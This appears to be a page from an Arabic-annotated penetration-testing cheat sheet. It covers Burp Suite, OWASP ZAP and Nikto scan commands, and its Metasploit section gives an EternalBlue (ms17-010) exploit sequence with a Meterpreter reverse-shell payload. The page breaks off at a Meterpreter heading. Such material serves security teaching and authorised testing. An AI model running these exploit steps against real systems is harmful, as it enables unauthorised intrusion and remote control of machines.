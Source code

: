 **2. Web Application Testing:**

**Burp Suite:**
```
- Proxy: اعتراض وتعديل الطلبات
- Scanner: فحص الثغرات تلقائياً
- Intruder: هجمات brute force
- Repeater: إعادة إرسال الطلبات
- Decoder: فك الترميز

الاستخدام:
1. إعداد المتصفح ليستخدم Burp كـ proxy
2. اعتراض الطلبات
3. تعديلها واختبار Payloads
```

**OWASP ZAP:**
```
- بديل مفتوح المصدر لـ Burp
- Spider: استكشاف التطبيق
- Active Scan: فحص تلقائي
- Fuzzer: اختبار مدخلات عشوائية
```

**Nikto:**
```bash
# Basic scan
nikto -h http://example.com

# SSL scan
nikto -h https://example.com -ssl

# Tuning (نوع الفحص)
nikto -h http://example.com -Tuning 123

# Output to file
nikto -h http://example.com -o output.html -Format html
```

**3. Exploitation Frameworks:**

**Metasploit:**
```bash
# Start Metasploit
msfconsole

# Search for exploits
search ms17-010
search apache

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show options
show options

# Set target
set RHOST 192.168.1.10

# Set payload
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.5

# Run exploit
exploit

# Meterpreter commands
```